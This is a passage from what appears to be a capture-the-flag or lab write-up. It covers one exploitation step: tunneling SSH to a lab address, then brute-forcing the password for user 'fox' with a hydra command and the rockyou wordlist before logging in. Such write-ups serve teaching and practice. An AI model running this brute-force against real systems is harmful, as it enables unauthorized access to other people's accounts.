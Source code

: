 ![writeup.exploitation.steps.2.1](./screenshot09.png)  

3\. With this, we now have tunneled `localhost:22` to `10.10.41.240:1337` and can now run a ssh password bruteforce for user `fox` on it. After a few minutes we find a hit and can now login:  
``` {.python .numberLines}
hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://10.10.41.240:1337
ssh fox@10.10.41.240 -p1337

```

![writeup.exploitation.steps.3.1](./screenshot10.png)  
